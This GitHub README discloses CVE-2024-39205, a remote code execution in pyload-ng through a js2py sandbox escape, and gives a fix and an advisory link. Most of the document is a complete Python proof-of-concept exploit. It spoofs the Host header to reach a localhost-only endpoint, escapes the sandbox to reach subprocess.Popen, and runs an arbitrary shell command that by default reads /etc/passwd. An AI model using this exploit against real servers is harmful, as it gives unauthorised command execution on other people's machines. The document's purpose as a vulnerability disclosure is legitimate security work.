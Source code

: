 # CVE-2024-39205-Pyload-RCE
Pyload RCE with js2py sandbox escape 

## Summary
Any pyload-ng running under python3.11 or below are vulnerable under RCE. Attacker can send a request containing any shell command and the victim server will execute it immediately.

## Fix
Upgrade to the newest version of pyload-ng or simply run pyload with python3.12 or above

## Details
js2py has a vulnerability of sandbox escape assigned as [CVE-2024-28397](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape), which is used by the `/flash/addcrypted2` API endpoint of pyload-ng. Although this endpoint is designed to only accept localhost connection, we can bypass this restriction using HTTP Header, thus accessing this API and achieve RCE.
 
## PoC
The PoC is provided as below, you can modify the shell command it execute:

```python
import socket
import base64
from urllib.parse import quote

host, port = input("host: "), int(input("port: "))

payload = """
// [+] command goes here:
let cmd = "head -n 1 /etc/passwd; calc; gnome-calculator;"
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
function f() {
    return n11
}

"""

crypted_b64 = base64.b64encode(b"1234").decode()

data = f"package=pkg&crypted={quote(crypted_b64)}&jk={quote(payload)}"

request = f"""\
POST /flash/addcrypted2 HTTP/1.1
Host: 127.0.0.1:9666
Content-Type: application/x-www-form-urlencoded
Content-Length: {len(data)}

{data}
""".encode().replace(b"\n", b"\r\n")

def main():

    s = socket.socket()
    s.connect((host, port))

    s.send(request)
    response = s.recv(1024).decode()
    print(response)

if __name__ == "__main__":
    main()


```

## Impact
Anyone who runs the latest version (<=0.5.0b3.dev85) of  pyload-ng under python3.11 or below. pyload-ng don't use js2py for python3.12 or above.

## Links
https://github.com/pyload/pyload/security/advisories/GHSA-w7hq-f2pj-c53g
